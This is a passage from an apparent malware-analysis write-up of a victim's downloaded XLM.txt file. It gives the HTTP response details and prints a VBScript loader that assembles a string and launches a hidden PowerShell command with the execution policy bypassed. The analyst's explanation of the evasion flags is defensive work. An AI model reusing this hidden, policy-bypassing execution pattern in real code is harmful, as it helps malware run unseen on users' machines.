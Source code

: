 *Fig 16. Base64 Payload*

#### HTTP Response Details:
- **Response Status**: HTTP/1.1 200 OK
- **Date**: Tue, 09 Jan 2024 17:27:28 GMT
- **Server**: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
- **Last-Modified**: Fri, 05 Jan 2024 10:28:14 GMT

The retrieved file contains the following suspicious code snippet:

```powershell

' Combine the parts into one string
OodjR = ""

For i = 0 To 88 - 1
    OodjR = OodjR & LseWX(i)
Next

' Use the combined parts in the shell execution
Set objShell = CreateObject("WScript.Shell")
objShell.Run "Cmd.exe /c POWeRSHeLL.eXe -NOP -WIND HIDDeN -eXeC BYPASS -NONI " & OodjR, 0, True

Set objShell = Nothing

```

The code above clearly indicates a malicious PowerShell execution attempt:

- **String Manipulation**: The code dynamically constructs a string using a loop to concatenate parts into a variable called `OodjR`.
- **Command Execution**: The script then uses `WScript.Shell` to execute a hidden PowerShell command (`Cmd.exe /c POWeRSHeLL.eXe -NOP -WIND HIDDeN -eXeC BYPASS -NONI`), designed to run without any user interface or interaction.
- **Malicious Intent**: The command employs various techniques to avoid detection, such as the use of `-NOP` (NoProfile) and `-WIND` (Window Hidden), which are common in malware to evade visibility.

Given that this payload is not carrying a binary executable file but rather executing commands through PowerShell, it is important to monitor for similar scripts or commands that could pose a risk to the system.

### Next Steps

Since the investigation confirms that the `XLM.txt` file contains malicious PowerShell code as shown in Fig 17, we will now proceed to analyse the second file, `MDM.jpg`, which was also downloaded by the victim.

